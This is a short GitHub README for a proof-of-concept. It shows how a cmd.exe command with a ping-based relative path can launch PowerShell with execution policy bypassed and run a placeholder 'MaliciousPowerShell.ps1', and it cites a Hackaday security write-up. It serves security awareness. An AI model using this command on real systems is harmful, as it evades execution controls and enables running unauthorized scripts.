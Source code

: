 # Cmdexerelativepathpoc

Created by: Brad Voris<BR />
<img alt="GitHub" src="https://img.shields.io/github/license/bvoris/Cmdexerelativepathpoc">
<img alt="GitHub commit activity" src="https://img.shields.io/github/commit-activity/m/bvoris/Cmdexerelativepathpoc">
<img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/bvoris/Cmdexerelativepathpoc/total">
<img alt="GitHub repo size" src="https://img.shields.io/github/repo-size/bvoris/Cmdexerelativepathpoc">
<img alt="GitHub language count" src="https://img.shields.io/github/languages/count/bvoris/Cmdexerelativepathpoc">
<img alt="GitHub issues" src="https://img.shields.io/github/issues/bvoris/Cmdexerelativepathpoc">
<img alt="GitHub top language" src="https://img.shields.io/github/languages/top/bvoris/Cmdexerelativepathpoc">

PowerShell script execution via cmd.exe relative path
This was in Hackaday article:
https://hackaday.com/2020/06/12/this-week-in-security-crosstalk-tls-resumption-and-brave-shenanigans/

This can be run from Windows 10 run copy and paste code
cmd.exe /c "ping 127.0.0.1/../../../../../../../Windows/system32/WindowsPowerShell/v1.0/powershell.exe" -ExecutionPolicy bypass -file c:\temp\MaliciousPowerShell.ps1

Path and file of PowerShell script are variables you can change
c:\temp\MaliciousPowerShell.ps1

cmd.exe will 
1. load a DOS prompt
2. cancel the ping command 
3. Run PowerShell with the Execution Policy in bypass mode
4. Load a PowerShell Script and execute

## Connect with me at

<a href="https://twitter.com/HMInfoSecViking?ref_src=twsrc%5Etfw"><IMG SRC="https://github.com/bvoris/bvoris/blob/master/twitter.jpg" WIDTH=10% HEIGHT=10% ALIGN=LEFT></a>

<a href="https://www.linkedin.com/in/brad-voris" target="_blank"><IMG SRC="https://github.com/bvoris/bvoris/blob/master/linkedin.png" WIDTH=10% HEIGHT=4% ALIGN=RIGHT></a>

<BR /><BR />
<BR /><BR />

<A HREF="https://www.victimoftechnology.com">Victim Of Technology<A />
<BR /><BR />
<A HREF="https://www.cyberforgesecurity.com">Cyber Forge Security, Inc.<A />
<BR /><BR />
